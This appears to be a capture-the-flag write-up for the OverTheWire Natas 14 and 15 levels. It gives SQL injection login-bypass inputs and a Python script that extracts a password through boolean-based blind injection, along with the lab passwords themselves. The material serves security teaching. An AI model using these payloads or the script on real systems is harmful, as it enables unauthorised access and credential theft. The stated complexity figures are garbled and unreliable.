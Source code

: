 ```yaml
---
layout: post
title: "OverTheWire: Natas 14 and 15"
date: 2016-11-15 12:00:00
share: true
comments: true
---
```


Starting this challenge, we'll be doing some fun SQL injection challenges. You may want to read about SQL, Regex and Python for easier understanding.

## Natas 14

Taking a look at the source code shows how the query is generated:

```php
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```


Query:
```sql
SELECT * from users where username="someusername" and password="somepassword"
```

You'll notice that the user input is not being filtered, which means we can use escape characters to make the query act differently than it should be.
Since we're trying to log in as Natas15, let's manipulate the query in a way that will bypass checking for a valid password.

All the following combinations work (among many others):

  * **User**: `natas15" #`
    **Pass**: *empty*
    **Query**:
```sql
    SELECT * from users where username="natas15" # and password =""
```


  * **User**: `" or 1 = 1 #`
    **Pass**: *empty*
    **Query**:
```sql
    SELECT * from users where username="" or 1 = 1 # and password = ""
```

  * **User**: `natas15`
    **Pass**: `" or "1"="1`
    **Query**:
```sql
    SELECT * from users where username="natas15" and password = "" or "1" = "1"
```

Successful login! The password for natas15 is `AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`.

_______________________________________________________

## Natas 15

```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```

In this example we'll be introduced to [blind-based SQL injection](https://www.exploit-db.com/docs/17397.pdf), more specifically to boolean based one.
Inspecting the source code above shows us that no data from the database issent directly to us, instead we get 3 types of responses depending on our query.

How can we retrieve the password? By asking questions! Like, does the password contain the letter 'a'? Does the letter 'x' come first?

Python script consists of two steps:

  1. Find a reduced sample size to bruteforce the password (since the number of valid characters is 62, and the password is only 32 characters long) without caring about position.
  2. Use the smaller set to get the exact word, password is an empty string where you keep looping for the next character, append it to the password and repeat, till you get the 32 characters long password.

```python
import requests
from requests.auth import HTTPBasicAuth

chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
filtered = ''
passwd = ''

for char in chars:
    Data = {'username' : 'natas16" and password LIKE BINARY "%' + char + '%" #'}
    r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
    if 'exists' in r.text :
        filtered = filtered + char

for i in range(0,32):
    for char in filtered:
        Data = {'username' : 'natas16" and password LIKE BINARY "' + passwd + char + '%" #'}
        r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
        if 'exists' in r.text :
            passwd = passwd + char
            print(passwd)
            break
```

If we didn't reduce our sample size, code complexity would've been `O(32 ^ 62)`, instead it became `O(62 + 32^25)`, which is much, much faster.

Output:
```
W
Wa
WaI
WaIH
WaIHE
WaIHEa
WaIHEac
WaIHEacj
WaIHEacj6
WaIHEacj63
WaIHEacj63w
WaIHEacj63wn
WaIHEacj63wnN
WaIHEacj63wnNI
WaIHEacj63wnNIB
WaIHEacj63wnNIBR
WaIHEacj63wnNIBRO
WaIHEacj63wnNIBROH
WaIHEacj63wnNIBROHe
WaIHEacj63wnNIBROHeq
WaIHEacj63wnNIBROHeqi
WaIHEacj63wnNIBROHeqi3
WaIHEacj63wnNIBROHeqi3p
WaIHEacj63wnNIBROHeqi3p9
WaIHEacj63wnNIBROHeqi3p9t
WaIHEacj63wnNIBROHeqi3p9t0
WaIHEacj63wnNIBROHeqi3p9t0m
WaIHEacj63wnNIBROHeqi3p9t0m5
WaIHEacj63wnNIBROHeqi3p9t0m5n
WaIHEacj63wnNIBROHeqi3p9t0m5nh
WaIHEacj63wnNIBROHeqi3p9t0m5nhm
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

Natas16 password is `WaIHEacj63wnNIBROHeqi3p9t0m5nhmh`.
